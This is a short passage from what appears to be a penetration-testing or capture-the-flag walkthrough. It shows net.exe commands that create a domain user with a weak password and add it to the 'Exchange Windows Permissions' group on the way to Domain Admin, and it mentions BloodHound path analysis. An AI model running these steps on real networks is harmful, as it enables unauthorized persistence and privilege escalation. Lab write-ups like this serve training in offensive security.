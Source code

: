 ![](<../../../.gitbook/assets/image (337) (1).png>)

I actually had issues with the PowerView command `Add-DomainGroupMember` not running as expected so instead I used `net.exe` to complete this process.

We can start by creating a new user account:

```
net user /add Akimbo Password123
```

We then add the new account to the _Exchange Windows Permissions_ Group.

```aspnet
net group "Exchange Windows Permissions" Akimbo /add /DOMAIN
# Verify the account has been added to the group
net group "Exchange Windows Permissions"
```

To illustrate where we are now in terms of shortest path to Domain Admin or Administrator I have run Bloodhound again showing the new account we have made.

![](<../../../.gitbook/assets/image (341) (1).png>)
